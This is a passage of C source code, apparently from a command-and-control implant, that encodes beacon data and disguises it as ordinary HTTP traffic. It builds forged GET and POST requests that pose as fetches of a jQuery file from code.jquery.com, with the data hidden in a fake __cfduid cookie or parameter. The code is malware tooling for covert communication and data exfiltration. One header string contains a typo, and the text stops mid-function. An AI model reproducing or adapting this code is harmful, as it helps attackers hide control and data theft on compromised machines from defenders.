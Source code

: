     char *cc2_rebind_http_post_send_param(char *data) {  
        unsigned long base64DecodeLength = get_base64_decode_length(data);  
      
        long base64DecodeRes[base64DecodeLength];  
        memset(base64DecodeRes, 0, base64DecodeLength);  
        base64_decode_to_ascii(data, base64DecodeRes);  
      
        long maskEncodeRes[base64DecodeLength + 4];  
        memset(maskEncodeRes, 0, base64DecodeLength + 4);  
        mask_encode(base64DecodeRes, base64DecodeLength + 4, maskEncodeRes);  
      
        unsigned long base64EncodeLength = get_base64_encode_length(sizeof(maskEncodeRes) / sizeof(maskEncodeRes[0]));  
        char *result = calloc(base64EncodeLength, base64EncodeLength);  
        ascii_to_base64_encode(maskEncodeRes, base64DecodeLength + 4, result);  
      
        return result;  
    }  
      
    char *cc2_rebind_http_recv_param(char *payload) {  
        char *data = fix_reverse(payload);  
      
        unsigned long base64DecodeLength = get_base64_decode_length(data);  
        long base64DecodeRes[base64DecodeLength];  
        memset(base64DecodeRes, 0, base64DecodeLength);  
        base64_decode_to_ascii(data, base64DecodeRes);  
      
        long maskDecodeRes[base64DecodeLength - 4];  
        memset(maskDecodeRes, 0, base64DecodeLength - 4);  
        mask_decode(base64DecodeRes, base64DecodeLength, maskDecodeRes);  
      
        unsigned long base64EncodeLength = get_base64_encode_length(base64DecodeLength - 4);  
        char *result = calloc(base64EncodeLength, base64EncodeLength);  
        ascii_to_base64_encode(maskDecodeRes, base64DecodeLength - 4, result);  
      
        return result;  
    }  
      
    void cc2_rebind_http_get_send(char *reqData, char **outputData, long long *outputData_len) {  
        char *requestBody = "GET /%s HTTP/1.1\r\n"  
                            "Host: code.jquery.comr\n"  
                            "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"  
                            "Accept-Encoding: gzip, deflate\r\n"  
                            "User-Agent: Mozilla/5.0 (Windows NT 6.3; Trident/7.0; rv:11.0) like Gecko\r\n"  
                            "Cookie: __cfduid=%s\r\n"  
                            "Referer: http://code.jquery.com/\r\n"  
                            "Connection: close\r\n\r\n";  
      
        char postPayload[20000];  
        sprintf(postPayload, requestBody, "jquery-3.3.1.min.js", reqData);  
      
        *outputData_len = strlen(postPayload);  
        *outputData = (char *) calloc(1, *outputData_len);  
        memcpy(*outputData, postPayload, *outputData_len);  
    }  
      
    void cc2_rebind_http_post_send(char *reqData, char *id, char **outputData, long long *outputData_len) {  
        char *requestBody = "POST /%s?__cfduid=%s HTTP/1.1\r\n"  
                            "Host: code.jquery.com\r\n"  
                            "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"  
                            "Accept-Encoding: gzip, deflate\r\n"  
                            "User-Agent: Mozilla/5.0 (Windows NT 6.3; Trident/7.0; rv:11.0) like Gecko\r\n"  
                            "Referer: http://code.jquery.com/\r\n"  
                            "Connection: close\r\n"  
                            "Content-Length: %d\r\n\r\n%s";  
      